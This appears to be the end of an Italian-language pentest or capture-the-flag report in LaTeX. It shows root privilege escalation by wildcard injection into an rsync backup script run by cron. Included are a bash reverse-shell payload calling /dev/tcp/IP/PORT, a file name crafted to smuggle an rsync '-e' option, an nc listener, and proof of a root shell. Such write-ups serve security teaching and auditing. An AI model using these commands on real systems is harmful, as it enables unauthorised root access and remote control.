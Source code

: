 \documentclass[a4paper,11pt]{article}
\begin{document}
\subsection{Analisi dello script}

Lo script utilizza:

\begin{lstlisting}
rsync -a *
\end{lstlisting}

Questo comportamento è vulnerabile a wildcard injection.

\subsection{Sfruttamento}

1. Creazione payload:

\begin{lstlisting}
echo "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'" > shell.sh
\end{lstlisting}

2. Creazione file malevolo:

\begin{lstlisting}
touch -- '-e sh shell.sh'
\end{lstlisting}

3. Attesa esecuzione cron

Listener:

\begin{lstlisting}
nc -lvnp 4444
\end{lstlisting}

\textbf{Risultato:} shell come \texttt{root}

\section{Proof of Compromise}

\subsection{Root Access}

\begin{lstlisting}
whoami
root
\end{lstlisting}

\section{Conclusioni}

La compromissione del sistema è stata possibile grazie alla combinazione di:

\begin{itemize}
    \item Reverse engineering di un binario esposto
    \item Vulnerabilità di code injection
    \item Errata configurazione di script di backup
\end{itemize}

La catena di attacco richiede competenze intermedie ed evidenzia gravi carenze di sicurezza a livello applicativo e di sistema.
\end{document}
